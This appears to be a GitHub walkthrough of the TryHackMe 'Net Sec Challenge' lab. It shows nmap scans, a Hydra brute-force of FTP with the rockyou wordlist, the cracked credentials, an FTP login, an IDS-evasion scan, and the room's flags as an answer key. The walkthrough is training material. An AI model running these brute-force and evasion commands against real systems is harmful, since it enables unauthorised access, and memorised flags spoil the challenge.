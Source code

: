 # <div align='center'>[Net Sec Challenge - Tryhackme Walkthrough](https://tryhackme.com/room/netsecchallenge)</div>
<div align='center'>Practice the skills you have learned in the Network Security module.</div>
<div align='center'>
  <img width="200" height="200" alt="5a1f33f79fce3569a2bc247468713c93" src="https://github.com/user-attachments/assets/80e31da8-cfd7-4ba4-b29d-f5dee5544c5c" />
</div>

## Task 1. Introduction
Use this challenge to test your mastery of the skills you have acquired in the Network Security module. All the questions in this challenge can be solved using only nmap, telnet, and hydra.
```
Answer: No need
```

## Task 2. Challenge Questions
Starting with an Nmap aggressive scan and service/version detection across all ports:
```
nmap -sV -p- 10.201.27.157 -A

PORT      STATE SERVICE     VERSION
22/tcp    open  ssh         (protocol 2.0)
| fingerprint-strings: 
|   NULL: 
|_    SSH-2.0-OpenSSH_8.2p1 THM{946219583339}
80/tcp    open  http        lighttpd
|_http-server-header: lighttpd THM{web_server_25352}
|_http-title: Hello, world!
139/tcp   open  netbios-ssn Samba smbd 4.6.2
445/tcp   open  netbios-ssn Samba smbd 4.6.2
8080/tcp  open  http        Node.js (Express middleware)
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
10021/tcp open  ftp         vsftpd 3.0.5
```
### What is the highest port number being open less than 10,000?
```
8080
```
### There is an open port outside the common 1000 ports; it is above 10,000. What is it?
```
10021
```

### How many TCP ports are open?
```
6
```
### What is the flag hidden in the HTTP server header?
```
THM{web_server_25352}
```

### What is the flag hidden in the SSH server header?
```
THM{946219583339}
```

### We have an FTP server listening on a nonstandard port. What is the version of the FTP server?
```
vsftpd 3.0.5
```
## Hydra
Create a file with both usernames:
```
echo "eddie
quinn" > user.txt
```
Run Hydra to brute-force FTP on port 10021 using the rockyou wordlist:

```
hydra -L user.txt -P /usr/share/wordlists/rockyou.txt ftp://10.201.27.157:10021
```
Credentials:
```
login: eddie   password: jordan
login: quinn   password: andrea
```
## FTP Access & Flag (first‑person plural)

We found an FTP service on a non‑standard port and connected to it using the credentials we recovered:
```
ftp 10.201.27.157 10021
Name (10.201.27.157:root): quinn
Password: andrea
```

Login succeeded:
```
230 Login successful.
ftp> ls
-rw-rw-r--    1 1002     1002           18 Sep 20  2021 ftp_flag.txt
```

We downloaded the file and read the flag:
```
ftp> get ftp_flag.txt
# then on attacker machine
cat ftp_flag.txt
```
```
### We learned two usernames using social engineering: eddie and quinn. What is the flag hidden in one of these two account files and accessible via FTP?
```
THM{321452667098}
```

To avoid detection by the IDS, use:

```bash
nmap -sN <ip>
```
<img width="623" height="423" alt="Screenshot 2025-10-01 195557" src="https://github.com/user-attachments/assets/91cbd2ac-5530-46c6-a700-4ab8289ba3b4" />

### Browsing to `http://MACHINE_IP:8080` displays a small challenge that will give you a flag once you solve it. What is the flag?
```
THM{f7443f99}
```

<img width="985" height="577" alt="Screenshot 2025-10-01 195514" src="https://github.com/user-attachments/assets/dd5eee08-e567-4164-92d9-435f71f9a82d" />
